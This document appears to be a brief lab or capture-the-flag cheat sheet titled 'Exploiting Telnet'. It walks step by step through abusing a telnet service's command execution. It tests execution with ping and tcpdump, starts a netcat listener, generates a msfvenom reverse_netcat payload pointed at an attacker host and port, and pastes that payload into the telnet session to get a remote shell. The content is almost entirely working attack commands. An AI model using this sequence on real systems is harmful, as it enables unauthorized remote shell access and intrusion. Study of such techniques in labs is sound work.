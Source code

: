 # Exploiting Telnet

1. Connect 
```sh
telnet 10.10.10.10 2121
```

2. Send Commands
```sh
.RUN ping 10.10.10.10
Debug system commands using `tcpdump` in another tab
```sh
sudo tcpdump ip proto \\icmp -i eth0
```

3. Start Netcat Listener
```sh
nc -lvp 4444
```

4. Generate payload

`-p` - Payload
`lhost` - Attacker ip
`lport` - Attacker port
`R` - Raw Format

```sh
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.10.10 lport=4444 R
```

5. Upload payload
This can be done by copy-pasting into the telnet terminal.

6. Issue commands 
In the same window you started the nc listener you can issue regular system commands such as `ls` and `cat`
